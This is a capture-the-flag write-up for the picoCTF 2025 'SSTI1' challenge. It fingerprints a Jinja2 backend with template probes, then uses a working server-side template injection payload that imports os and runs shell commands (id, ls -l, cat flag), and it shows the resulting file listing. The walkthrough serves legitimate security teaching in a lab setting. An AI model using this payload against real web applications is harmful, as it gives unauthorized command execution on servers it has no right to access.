

# SSTI1

- [Challenge information](#challenge-information)
- [Solution](#solution)
- [References](#references)

## Challenge information

```text
Level: Easy
Tags: Web Exploitation, picoCTF 2025, browser_webshell_solvable
Meta Tags: Walkthrough, Walk-through, Write-up, Writeup
Author: VENAX

Description:
I made a cool website where you can announce whatever you want! 
Try it out!
I heard templating is a cool and modular way to build web apps! 
Check out my website here!

Hints:
1. Server Side Template Injection
```

Challenge link: [https://play.picoctf.org/practice/challenge/492](https://play.picoctf.org/practice/challenge/492)

## Solution

Browse to the web site and you will see a web page that includes the text

```text
Home
I built a cool website that lets you announce whatever you want!*

What do you want to announce:
```

followed by an input text box and an `OK`-button.

### Verify SSTI

The hint has already given away that the site uses [server-side templates](https://portswigger.net/web-security/server-side-template-injection) but we need to verify that and find out the backend technology used.

To our help we use the following decision tree from [PortSwiggers page on Server-side template injection](https://portswigger.net/web-security/server-side-template-injection)



The tests done are as follows:

1. Entering `${7*7}` yields `${7*7}`,
2. Entering `{{7*7}}` yields `49` and
3. `{{7*'7'}}` yields `7777777`

So now we know we have a Jinja2 backend.

Googling around for SSTI Jinja2-payloads I found this one: `{{request.application.__globals__.__builtins__.__import__('os').popen('id').read()}}`

### Look for the flag

Using the payload `{{request.application.__globals__.__builtins__.__import__('os').popen('ls -l').read()}}` we get the following result

```html
                <!doctype html>
                <h1 style="font-size:100px;" align="center">total 12
drwxr-xr-x 2 root root   32 Apr 12 10:09 __pycache__
-rwxr-xr-x 1 root root 1241 Mar  6 03:27 app.py
-rw-r--r-- 1 root root   58 Mar  6 19:44 flag
-rwxr-xr-x 1 root root  268 Mar  6 03:27 requirements.txt
</h1>
```

So now we have the name and location of the flag

### Get the flag

We get the flag with the payload `{{request.application.__globals__.__builtins__.__import__('os').popen('cat flag').read()}}`

For additional information, please see the references below.

## References

- [Flask (web framework) - Wikipedia](https://en.wikipedia.org/wiki/Flask_(web_framework))
- [Jinja (template engine) - Wikipedia](https://en.wikipedia.org/wiki/Jinja_(template_engine))
- [Server-side template injection - PortSwigger](https://portswigger.net/web-security/server-side-template-injection)
